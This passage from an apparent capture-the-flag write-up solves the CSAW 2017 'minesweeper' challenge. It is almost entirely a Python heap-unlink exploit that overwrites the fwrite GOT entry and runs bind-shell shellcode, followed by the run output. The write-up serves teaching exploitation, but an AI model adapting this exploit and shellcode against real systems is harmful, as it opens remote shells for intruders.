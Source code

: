 ```

print "Heap Base: " + hex(heapBase)

quitGame()

# SO a little heap grooming
initializeGame(2, 2, "X" + "0"*(8))
newGame()

initializeGame(2, 2, "X" + "0"*(8))
newGame()

initializeGame(2, 2, "X" + "0"*(8))
newGame()



payload = ""
payload += "0"*0x20
# Some extra instructions to deal with the got address written 0x4 bytes after the start of our shellcode
payload += "\x90"*3 + "\x50" + "\x90"*8

# This shellcode is from: http://shell-storm.org/shellcode/files/shellcode-836.php
payload += "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x5b\x5e\x52\x66\x68\x2b\x67\x6a\x10\x51\x50\xb0\x66\x89\xe1\xcd\x80\x89\x51\x04\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80"
payload += "0"*(183 - len(payload))
payload += p32(elf.got["fwrite"] - 8) # fwd pointer
payload += p32(heapBase + 0x5d) # bk pointer
payload += "2"*33

# Send the payload
initializeGame(14, 14, "X" + payload)

target.interactive()
```

When we run it:

```
$    python exploit.py
[!] Could not find executable 'minesweeper' in $PATH, using './minesweeper' instead
[+] Starting local process './minesweeper': pid 11660
[+] Opening connection to 127.0.0.1 on port 31337: Done
[*] '/Hackery/pod/modules/custom_misc_heap/csaw17_minesweeper/minesweeper'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

Hi. Welcome to Minesweeper. Please select an option:
1) N (New Game)
2) Initialize Game(I)
3) Q (Quit)

Please enter in the dimensions of the board you would like to set in this format: B X Y

HI THERE!!
  +---------------------------+---------------------------+
  |      __________________   |                           |
```